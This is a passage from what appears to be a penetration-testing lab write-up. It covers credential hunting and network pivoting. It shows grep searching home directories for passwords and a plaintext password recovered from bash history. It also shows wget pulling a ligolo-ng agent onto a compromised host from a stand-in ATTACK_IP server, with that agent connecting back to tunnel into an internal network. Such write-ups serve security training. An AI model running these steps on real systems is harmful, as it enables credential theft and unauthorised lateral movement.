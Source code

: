 
## 🕵️ Phase 2: Credential Hunting

### Bash History Analysis
```bash
# Search for credentials in user directories
grep 'pass' -r /home/ 2>/dev/null

# Discovered credentials in bash history:
/home/jbetty/.bash_history:sshpass -p "dealer-screwed-gym1" ssh hwilliam@file01
/home/jbetty/.bash_history:passwd
```

### Extracted Credentials
- **Username**: hwilliam
- **Password**: dealer-screwed-gym1
- **Target**: file01 (internal network)

---

## 🌐 Phase 3: Network Pivoting

### Ligolo-ng Setup

#### Download and Extract
```bash
# On attack host - download ligolo-ng
wget -q https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_agent_0.8.2_linux_amd64.tar.gz
wget -q https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_proxy_0.8.2_linux_amd64.tar.gz

tar -xvzf ligolo-ng_agent_0.8.2_linux_amd64.tar.gz
tar -xvzf ligolo-ng_proxy_0.8.2_linux_amd64.tar.gz
```

#### File Transfer Setup
```bash
# Start HTTP server on attack host
python3 -m http.server

# Download agent on DMZ01
jbetty@DMZ01:~$ wget http://ATTACK_IP:8000/agent
```

#### Proxy and Agent Setup
```bash
# Terminal 1: Start proxy on attack host
sudo ./proxy -selfcert

# Terminal 2: Connect agent from DMZ01
jbetty@DMZ01:~$ chmod +x ./agent
jbetty@DMZ01:~$ ./agent -connect ATTACK_IP:11601 --ignore-cert
```
